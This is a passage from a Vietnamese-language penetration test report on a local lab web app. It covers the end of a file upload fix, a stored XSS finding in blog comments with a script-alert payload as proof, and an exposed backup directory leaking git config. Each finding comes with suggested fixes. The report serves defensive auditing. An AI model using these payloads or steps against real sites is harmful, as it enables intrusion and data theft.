#### ✅ 2. Đổi tên file khi lưu trữ để ngăn chặn thực thi
```
$newFileName = uniqid() . ".jpg";
move_uploaded_file($_FILES['avatar']['tmp_name'], "uploads/" . $newFileName);
```
#### ✅ 3. Vô hiệu hóa PHP trong thư mục uploads bằng .htaccess
-Tạo file .htaccess trong uploads/ với nội dung:
```
<FilesMatch "\.php$">
    Deny from all
</FilesMatch>
```
#### ✅ 4. Định dạng lại quyền thư mục
Đặt quyền chmod 644 cho file, chmod 755 cho thư mục uploads để tránh thực thi mã độc.

</details>
<details>  
  <summary>🛑<strong> A03:2021 - Injection (Stored XSS) - Bình luận Blog</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Cho phép thực thi mã JavaScript độc hại trên trình duyệt của người dùng.  
- **Hệ lụy**:  
  - Đánh cắp cookie hoặc dữ liệu phiên của người dùng.  
  - Tạo ra các cuộc tấn công giả mạo (phishing).  
  - Chiếm quyền điều khiển tài khoản nếu kết hợp với các lỗ hổng khác.  
---

## 📌 Phát Hiện Chung  
- Tại trang **`blog_detail.php`**, người dùng có thể để lại bình luận dưới mỗi bài viết.  
- Ứng dụng **không kiểm tra hoặc mã hóa dữ liệu đầu vào**, cho phép chèn mã JavaScript.  
- Khi bình luận chứa mã độc được hiển thị trên trang, nó **tự động thực thi trên trình duyệt** của các người dùng khác.  
---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Gửi Payload XSS  
- Truy cập trang chi tiết bài viết (`blog_detail.php`).  
- Nhập nội dung bình luận với payload sau:  

```html
<script>alert("Check")</script>

```
---

### 📌 2. Kiểm tra kết quả  
- Truy cập lại trang `blog_detail.php` và quan sát trình duyệt.  
- Nhận thấy **hộp thoại alert xuất hiện**, chứng tỏ mã JavaScript đã được thực thi.  

📸 **Ảnh minh họa**:  

| Gửi Payload XSS | XSS được kích hoạt |
|-----------------|-------------------|
|  |  |
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

#### ✅ 1. Lọc & mã hóa đầu vào  
- Trước khi lưu bình luận vào database, mã hóa ký tự đặc biệt:  

```
php
$comment = htmlspecialchars($_POST['comment'], ENT_QUOTES, 'UTF-8');

```
  
#### ✅ 2. Xác thực đầu vào  
- Chỉ cho phép nhập văn bản thuần bằng cách kiểm tra regex hoặc whitelist các ký tự hợp lệ.  

#### ✅ 3. Sử dụng Content Security Policy (CSP)  
- Cấu hình CSP để chặn việc thực thi mã JavaScript nội tuyến:  
```
Content-Security-Policy: default-src 'self'; script-src 'self';
```
</details>
<details>  
  <summary>🛑<strong> A05:2021 - Security Misconfiguration - Lộ File Backup</strong></summary>

## 🔥 Tầm Quan Trọng Của Phát Hiện Chính  
- **Mức độ**: 🟠 Trung bình  
- **Ảnh hưởng**: Dò được thông tin nhạy cảm của hệ thống.  
- **Hệ lụy**:  
  - Lộ thông tin về cấu hình Git.  
  - Dò ra đường dẫn thư mục nội bộ và các file quan trọng.  
  - Tạo điều kiện cho các cuộc tấn công tiếp theo như **Privilege Escalation** hoặc **RCE**.  

---

## 📌 Phát Hiện Chung  
- Khi truy cập thư mục `/backup/`, có thể thấy danh sách file backup của hệ thống.  
- Không có bất kỳ **cơ chế chặn truy cập** nào, dẫn đến **lộ thông tin quan trọng**.  
- Các file như `git-config-old.txt`, `git-logs-old.txt`, `git-status-old.txt` chứa dữ liệu nhạy cảm.  

---

## 🛠 PoC - Bằng Chứng Khai Thác  

### 📌 1. Truy cập đường dẫn backup  
- Mở trình duyệt và truy cập:  
```
http://localhost/web_pen_v1/backup/
```

- Kết quả trả về danh sách file backup:  

📸 **Ảnh minh họa**:  

| Mở thư mục backup | Nội dung file backup |
|-------------------|---------------------|
|  |  |

---

### 📌 2. Đọc nội dung file `git-config-old.txt`  
- Mở file backup và thấy thông tin nhạy cảm:  
```
[user]
    name = carlos
    email = carlos@admin.com
[core]
    repositoryformatversion = 0
    filemode = true
    bare = false
```

- Lộ thông tin admin, cấu trúc repo, và các file quan trọng khác.  
---

## 🔧 Biện Pháp Khắc Phục Được Đề Xuất  

### ✅ 1. Chặn truy cập thư mục `/backup/` bằng `.htaccess`  
Tạo file `.htaccess` trong thư mục `backup/` và thêm:  
```
Options -Indexes
Deny from all
```
#### ✅ 2. Xóa các file backup không cần thiết
Kiểm tra và xóa ngay các file backup không sử dụng.
Không lưu trữ file backup trong thư mục public.
#### ✅ 3. Cấu hình đúng quyền truy cập
Đặt quyền truy cập thư mục /backup/ chỉ cho phép admin:
```
chmod -R 700 backup/
```
</details>


